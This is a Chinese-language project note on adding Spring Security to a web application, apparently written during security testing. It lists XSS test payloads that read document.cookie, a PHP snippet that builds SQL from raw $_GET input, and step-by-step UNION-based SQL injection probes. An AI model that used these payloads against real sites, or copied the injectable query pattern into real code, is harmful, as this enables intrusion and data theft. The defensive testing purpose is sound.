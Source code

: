 ## 为 Web 应用添加安全性防护策略
***
### Spring Security
#### 1. 说明
1. spring security 是一在 spring 基础上的框架
通过这个框架可以尽量的避免多种安全问题, 包括客户端服务端已经客户端服务端通信之间的安全问题  

2. Spring Security 对 Web 安全性的支持大量地依赖于 Servlet 过滤器. 这些过滤器拦截进入请求, 并且在应用程序处理该请求之前进行某些安全处理  

3. Spring Security 提供有若干个过滤器, 它们能够拦截 Servlet 请求, 并将这些请求转给认证和访问决策管理器处理, 从而增强安全性  

4. 根据网上的一些教程以及书本上的一些简单的实例进行了登录页面的框架使用, 但是存在了一些问题, 没有实现完全, 所以没有把测试版本进行上传以及应用

#### 2. 测试用例
1. XSS测试用例
```javascript
'><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>
%3Cscript%3Ealert('XSS')%3C/script%3E
<script>alert('XSS')</script>
<script>alert('Vulnerable');</script> 
<script>alert('Vulnerable')</script> 
?sql_debug=1 
a%5c.aspx 
a.jsp/<script>alert('Vulnerable')</script> 
a/ 
a?<script>alert('Vulnerable')</script> 
"><script>alert('Vulnerable')</script> 
```

2. SQL注入用例：
```php
$sql = "SELECT * FROM users where name='root' and 1=1 #";
$sql .= $_GET["name"]."'";  
$result = mysql_query($sql)
?name=root' and 1=1 #
// 根据获得的#编码来进行以下的操作, 假设#编码是%23
?name=root' order by 5 %23
// 更改5成任意的数字, 知道其中有一个数字时正常, 就得到有多少个表
// 假设有五个表, 那么就可以使用以下语句判断有多少个注入点
?name=root' and 1=2 UNION SELECT 1,2,3,4,5 %23
```
#### 3. AWVS测试后的一些建议
因为时间和技术等问题, 在安全性方面其实是存在很多问题的, 无论是数据库的安全性, 还是在 XSS 以及 SQL 注入等方面多少都存在一些问题. 存在数据库中的数据并没有经过太好的加密, 有更改 cookie 的可能. 所以在安全性方面还需要进一步的完善